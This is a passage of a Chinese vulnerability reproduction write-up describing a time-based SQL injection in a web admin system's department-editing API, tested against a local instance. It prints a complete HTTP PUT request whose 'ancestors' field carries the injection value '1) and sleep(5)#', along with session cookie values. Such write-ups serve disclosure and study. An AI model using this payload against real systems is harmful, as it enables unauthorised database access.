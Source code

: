看看ChatGPT的解释  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhb3xs8yNG2KoJBjTYMJzkMJcZ0XqKB6xYicC5k4GSaIDjjhJ2nibsNVrA/640?wx_fmt=png&from=appmsg "")  
### 三、漏洞复现  
  
这个漏洞点位于“修改部门‘功能，我们来到部门管理页面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhRCibwES1MKd2p6M9okJXlTS3tamdVknrIw7cR5ftribVcYK5LiaIVpcmw/640?wx_fmt=png&from=appmsg "")  
  
选一个没有上级部门的部门进行修改  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhFyCuPqg8iaibAS0z7jIrA04zntPwSf2Qm4j7eK5Jt9rueHtEzic2IcM6w/640?wx_fmt=png&from=appmsg "")  
  
可以看到请求并没有携带ancestors参数，但是我们刚才分析此处是可以传入ancestors参数的，因为接收的是Mydept类  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhokKpzowY0DdgUwwIRibwl6yQNSYxicnTPaokT0nSibY6D9VwRwIalZUTg/640?wx_fmt=png&from=appmsg "")  
  
  
Mydept类有的属性都可以接收  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhf0oiaY86fYibAOkWLFSCcSWoBP2CuZASnkDGH2GH9xKT4zaREZ3a1Scg/640?wx_fmt=png&from=appmsg "")  
  
构造payload  
```
PUT /api/dept HTTP/1.1
Host: 127.0.0.1:8088
Sec-Fetch-Mode: cors
Accept: application/json, text/javascript, */*; q=0.01
Cookie: JSESSIONID=966124AD0558B0F404998C6158F56C58; remember-me=YWRtaW46MTcxOTc1MDE1MjI2ODozYjliNWYzODZmNzczY2RkNmFhZDMwYzU4Mzg0M2FmZA
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Content-Type: application/json


{"deptId":"1","deptName":"南京总公司","sort":"1","status":"1","parentId":"0","dataTree_select_nodeId":"","dataTree_select_input":"","ancestors":"1) and sleep(5)#"}
```  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOh23Fia4MicRd6ozvhUfg0Fc7GzARt7C2fiaMaOnQswOo92ibZGsicvqvos3w/640?wx_fmt=png&from=appmsg "")  
### 四、参考链接  
```
```  
  
